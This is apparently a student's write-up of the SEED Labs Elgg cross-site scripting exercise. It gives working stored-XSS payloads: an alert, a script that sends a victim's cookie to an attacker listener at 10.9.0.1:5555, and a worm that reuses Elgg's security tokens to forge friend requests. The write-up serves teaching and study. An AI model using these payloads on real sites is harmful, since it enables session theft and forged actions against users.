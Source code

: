# WEEK 10 and 11

## SEEDs LAB

Link: https://github.com/seed-labs/seed-labs/tree/master/category-web/Web_SQL_Injection


### Task 1 - Posting a Malicious Message to Display an Alert Window

- For this task, we need to embed a JavaScript code in an _Elgg_ profilem duch that when the user views the respective profile, an alart windows will appear.
- In order to do this, we used the following JavaScript code:

```js
<script>
    alert("XSS");
</script>
```

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/1.1-Edit_brief_description.PNG)

- After saving the new information, each time a user visited that respective profile (in our case, is the Alice's profile), a pop-up would appear.

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/1.2-popup.PNG)


### Task2 - Posting a Malicious Message to Display Cookies

- The objective of this task is similar to the first task, but instead of the message, we need to display the user cookie.

```js
<script> 
    document.write("<img src=htt://10.9.0.1:5555?c=" + escape(document.cookie) + " ›"); 
</script>
```

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/2.1-edit_brief_descriptio_image.PNG)

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/2.2-user_cookie.PNG)


### Task3 - Stealing cookies from the Victim's Machine

- In this task, we want to be able to send the user's cookies to a server that belongs to us, the attacker. 
- In order to to this, we use an image with the an hyperlink reference with the user cookie. We will use an image because each time the page is loaded the image is loaded with him, and consequently, the href is called.

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/3.1-edit_brief_description_image.PNG)

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/3.2-terminal_result.PNG)


### Task4 - Becoming the Victim's Friend

- Lastly, in this task, we will write an XSS worm that adds Samy as a friend to any other user (in our case, Alice) that visits Samy's profile.

```js
<script type="text/javascript">
    window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=??" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script>
```

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/4.1-alice_profile_friends.PNG)

- When we visit Samy's profile, the script will send a forged friend request.
![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/4.2-alice_profile_on_samy_profile.PNG)

- When we visit Alice's profile, we can see that Samy is n ow a friend of Alice.
![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/4.3-alice_friends_page.PNG)

### Question1 - Explain the purpose of Lines 1 and 2, why ate they needed?
The referenced lines serve to send the _elgg_ token in our forged request so that the server evaluates the request as a valid request from the user.

### Question2 - If the _Elgg_ application only provide the ditor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
A successful attack can't be launched since the Editor mode filters HTML special characters and we can't edit the innerHTML content of that field. So, injecting any script into the _About me_ field is not possiblem as we can't submit the `<script>` tag into profile.



